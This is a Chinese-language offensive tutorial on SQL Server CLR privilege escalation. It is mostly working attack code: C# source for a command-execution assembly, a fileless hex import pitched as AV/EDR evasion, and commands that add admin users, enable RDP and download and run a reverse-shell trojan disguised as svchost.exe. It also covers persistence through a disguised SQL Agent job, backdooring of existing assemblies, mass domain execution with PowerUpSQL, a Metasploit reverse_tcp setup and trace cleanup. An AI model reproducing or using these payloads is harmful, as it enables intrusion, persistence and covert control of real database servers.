


> 环境：SQL Server 2016 / 2019，Windows。需要有 `CREATE ASSEMBLY` 或 `sysadmin` 权限。

***

## 一、CLR 提权概述

### 1.1 什么是 CLR 程序集

CLR（Common Language Runtime，公共语言运行时）是 SQL Server 的一项集成功能，允许将 **.NET 编译的 DLL** 导入数据库作为程序集，并将其方法映射为 TSQL 存储过程调用。

### 1.2 攻击面

| 组件 | 说明 |
|------|------|
| **程序集 (Assembly)** | .NET DLL，可包含任意 C# 代码 |
| **存储过程 (Procedure)** | 映射 DLL 方法，可通过 TSQL 调用 |
| **执行上下文** | 以 **SQL Server 服务账户** 身份运行 |
| **权限要求** | `CREATE ASSEMBLY` 或 `ALTER ASSEMBLY` 权限（`db_ddladmin` 角色即可） |

### 1.3 提权条件

| 前置条件 | 默认值 | 说明 |
|---------|--------|------|
| `clr enabled` = 1 | **OFF** | 必须由 sysadmin 开启 |
| `is_trustworthy` = ON | 仅 **msdb** 默认为 ON | 目标数据库需可信 |
| `CREATE/ALTER ASSEMBLY` 权限 | sysadmin 持有 | db_ddladmin 角色有 ALTER 权限 |
| `clr strict security` = 0 | SQL 2017+ 默认为 ON | 需额外禁用或提供证书签名 |

> **** CLR 程序集在 `PERMISSION_SET = UNSAFE` 模式下可直接调用 `System.Diagnostics.Process` 执行任意系统命令，以 SQL Server 服务账户身份运行。

### 1.4 攻击链路概述



---

## 二、环境准备

### 2.1 检查 CLR 与可信状态

```sql
-- 检查 CLR 是否启用（0=关闭, 1=开启）
EXEC sp_configure 'clr enabled';

-- 检查所有数据库的 trustworthy 状态
SELECT name, is_trustworthy_on FROM sys.databases;

-- 查看 CLR strict security 状态（SQL 2017+）
EXEC sp_configure 'clr strict security';
```

### 2.2 开启必要配置（需 sysadmin）

```sql
-- 显示高级选项
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
GO

-- 启用 CLR
EXEC sp_configure 'clr enabled', 1;
RECONFIGURE;
GO

-- SQL 2017+ 需额外禁用 strict security
EXEC sp_configure 'clr strict security', 0;
RECONFIGURE;
GO

-- 确保 msdb 数据库可信
ALTER DATABASE msdb SET TRUSTWORTHY ON;
GO
```

### 2.3 查看现有程序集

```sql
-- 枚举已有的 CLR 程序集和对应存储过程
SELECT 
    af.name AS dll_name,
    asmbly.name AS assembly_name,
    am.assembly_class,
    am.assembly_method,
    so.name AS procedure_name,
    asmbly.permission_set_desc,
    asmbly.create_date
FROM sys.assembly_modules am
INNER JOIN sys.assemblies asmbly ON asmbly.assembly_id = am.assembly_id
INNER JOIN sys.assembly_files af ON asmbly.assembly_id = af.assembly_id
INNER JOIN sys.objects so ON so.[object_id] = am.[object_id];
```

---

## 三、攻击实现

### 3.1 编写恶意 C# DLL

以下代码实现了通过 `System.Diagnostics.Process` 执行任意系统命令并将输出返回 SQL 客户端：

```csharp
// 文件名: cmd_exec.cs
using System;
using System.Data;
using System.Data.SqlTypes;
using System.Data.SqlClient;
using Microsoft.SqlServer.Server;
using System.Diagnostics;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmd_exec(SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        // 将命令输出逐行返回 SQL 客户端
        SqlDataRecord record = new SqlDataRecord(
            new SqlMetaData("output", SqlDbType.NVarChar, 4000));
        SqlContext.Pipe.SendResultsStart(record);
        
        while (!proc.StandardOutput.EndOfStream)
        {
            record.SetString(0, proc.StandardOutput.ReadLine());
            SqlContext.Pipe.SendResultsRow(record);
        }
        
        SqlContext.Pipe.SendResultsEnd();
        proc.WaitForExit();
        proc.Close();
    }
};
```

### 3.2 编译 DLL

使用系统自带的 `csc.exe`（C# 编译器，随 .NET Framework 安装），无需 Visual Studio：

```powershell
# 查找 csc.exe 路径
Get-ChildItem -Recurse "C:\Windows\Microsoft.NET" -Filter "csc.exe" |
    Sort-Object FullName -Descending | Select-Object FullName -First 1

# 常用路径（64位 .NET 4.x）
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library C:\temp\cmd_exec.cs
```

编译后在 `C:\temp\` 生成 `cmd_exec.dll`。

> **场景变体：** 如果目标服务器无法直接写文件，可以在本地 Kali 安装 `mono-mcs` 编译：
> ```bash
> sudo apt install mono-mcs
> mcs -target:library -out:cmd_exec.dll cmd_exec.cs
> ```

### 3.3 有文件导入 — 将 DLL 写入服务器后导入

```sql
USE msdb;
GO

-- 通过 xp_cmdshell 或其他方式将 DLL 传到服务器后导入
CREATE ASSEMBLY [cmd_exec_asm]
FROM 'C:\temp\cmd_exec.dll'
WITH PERMISSION_SET = UNSAFE;
GO

-- 将 DLL 中的方法映射为存储过程
CREATE PROCEDURE [dbo].[cmd_exec]
    @execCommand NVARCHAR(4000)
AS EXTERNAL NAME [cmd_exec_asm].[StoredProcedures].[cmd_exec];
GO
```

### 3.4 无文件导入 — 十六进制字符串直接创建

为避免触发磁盘层 AV/EDR，将 DLL 转换为十六进制字符串直接执行：

**步骤一：PowerShell 生成十六进制导入脚本**

```powershell
$assemblyFile = "C:\temp\cmd_exec.dll"
$builder = New-Object System.Text.StringBuilder

$builder.AppendLine("CREATE ASSEMBLY [cmd_exec_asm] AUTHORIZATION [dbo] FROM ")
$builder.Append("0x")

$bytes = [System.IO.File]::ReadAllBytes($assemblyFile)
foreach ($b in $bytes) {
    $builder.Append($b.ToString("X2"))
}

$builder.AppendLine()
$builder.AppendLine("WITH PERMISSION_SET = UNSAFE;")
$builder.AppendLine("GO")
$builder.AppendLine("CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR(4000) ")
$builder.AppendLine("AS EXTERNAL NAME [cmd_exec_asm].[StoredProcedures].[cmd_exec];")
$builder.AppendLine("GO")

$builder.ToString() | Out-File -FilePath C:\temp\cmd_exec_hex.txt -Encoding ASCII
Write-Host "[+] Hex import script generated: C:\temp\cmd_exec_hex.txt"
```

**步骤二：在 SQL 客户端执行生成的脚本**

生成的 SQL 脚本格式：

```sql
CREATE ASSEMBLY [cmd_exec_asm] AUTHORIZATION [dbo] FROM
0x4D5A90000300000004000000FFFF0000B8000000000000...(完整DLL十六进制)
WITH PERMISSION_SET = UNSAFE;
GO
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR(4000)
AS EXTERNAL NAME [cmd_exec_asm].[StoredProcedures].[cmd_exec];
GO
```

> **优势：** 不落盘 DLL，绕过文件监控；适合只掌握 SQL 客户端连接（如 SQLCMD / SSMS / Navicat）的场景。

### 3.5 执行系统命令

```sql
-- 基础命令执行
EXEC [dbo].[cmd_exec] 'whoami';

-- 查看当前用户权限
EXEC [dbo].[cmd_exec] 'whoami /priv';

-- 添加管理员用户
EXEC [dbo].[cmd_exec] 'net user pentest Passw0rd! /add';
EXEC [dbo].[cmd_exec] 'net localgroup Administrators pentest /add';

-- 开启 RDP（3389）
EXEC [dbo].[cmd_exec] 'reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f';

-- 下载反弹 Shell 木马
EXEC [dbo].[cmd_exec] 'certutil -urlcache -split -f http://攻击机IP/shell.exe C:\Windows\Temp\svchost.exe && C:\Windows\Temp\svchost.exe';
```

---

## 四、后渗透与持久化

### 4.1 导出已有 CLR 程序集 → 修改 → 回写

利用 **dnSpy** 反编译现有程序集，注入后门后通过 `ALTER ASSEMBLY` 替换（不中断现有会话）：

```sql
-- 导出程序集二进制内容
SELECT af.content FROM sys.assembly_files af
INNER JOIN sys.assemblies a ON af.assembly_id = a.assembly_id
WHERE a.name = 'target_assembly';

-- 将导出的 varbinary 另存为 DLL
-- 用 dnSpy 修改 → 修改 MVID 一个字节 → 回写
ALTER ASSEMBLY [target_assembly]
FROM 0x4D5A90...(修改后的十六进制)
WITH PERMISSION_SET = UNSAFE;
GO
```

### 4.2 创建持久化定时任务

```sql
-- 利用 SQL Agent Job 定期反弹 Shell
USE msdb;
EXEC sp_add_job @job_name = 'WindowsUpdate';
EXEC sp_add_jobstep 
    @job_name = 'WindowsUpdate',
    @step_name = 'payload',
    @command = 'EXEC cmd_exec ''powershell -enc <Base64编码命令>''';
EXEC sp_add_jobschedule 
    @job_name = 'WindowsUpdate',
    @name = 'DailyRun',
    @freq_type = 4,       -- 每天
    @freq_interval = 1,
    @active_start_time = 090000;
EXEC sp_add_jobserver @job_name = 'WindowsUpdate';
GO
```

---

## 五、工具化利用

### 5.1 PowerUpSQL

```powershell
# 导入模块
Import-Module PowerUpSQL.psd1

# 生成 CLR DLL 和 TSQL 导入脚本（一步到位）
Create-SQLFileCLRDll -ProcedureName "runcmd" -OutFile runcmd -OutDir C:\temp

# 远程自动执行（自动处理 CLR 启用和导入）
Invoke-SQLOSCmdCLR -Username sa -Password 'P@ssw0rd' `
    -Instance SRV01\SQLEXPRESS -Command "whoami" -Verbose

# 大规模枚举域内 SQL Server 并执行
Get-SQLInstanceDomain | Invoke-SQLOSCmdCLR `
    -Command 'net user backdoor P@ssw0rd! /add' -Verbose
```

### 5.2 Metasploit

```bash
msf6 > use exploit/windows/mssql/mssql_clr_payload
msf6 > set RHOSTS 192.168.1.100
msf6 > set USERNAME sa
msf6 > set PASSWORD P@ssw0rd
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.1.50
msf6 > set LPORT 4444
msf6 > run
```

> 执行后获得 Meterpreter 会话，权限为 `NT SERVICE\MSSQLSERVER` 或 `NT AUTHORITY\SYSTEM`。

### 5.3 SQLWinds 交互式工具包

```bash
# 内存中加载 CLR（无文件痕迹）
:memclr

# 启用 CLR 支持
:enable_clr

# 部署 CLR Payload
:deploy-clr
```

---

## 六、清理痕迹

```sql
-- 删除存储过程和程序集
USE msdb;
DROP PROCEDURE IF EXISTS [dbo].[cmd_exec];
DROP ASSEMBLY IF EXISTS [cmd_exec_asm];

-- 恢复安全配置
EXEC sp_configure 'clr enabled', 0;
EXEC sp_configure 'clr strict security', 1;
RECONFIGURE;
```

---

## 攻击链路总结



## 核心知识点

- CLR 程序集的 `UNSAFE` 权限集可突破 SQL Server 沙箱执行 OS 命令
- 执行上下文为 **SQL Server 服务账户**（常见 `NT SERVICE\MSSQLSERVER` 或 `NT AUTHORITY\SYSTEM`）
- 十六进制字符串导入方式（`FROM 0x...`）可绕过 AV/EDR 文件监控
- `ALTER ASSEMBLY` 比 `DROP + CREATE` 更隐蔽，不中断现有连接
- `db_ddladmin` 角色即具备 `ALTER ASSEMBLY` 权限，不一定要 sysadmin
- SQL Server 2017+ 的 `clr strict security` 增加了利用难度，但仍可配合证书签名绕过
- 结合 SQL Agent Job 可实现持久化定时任务

---
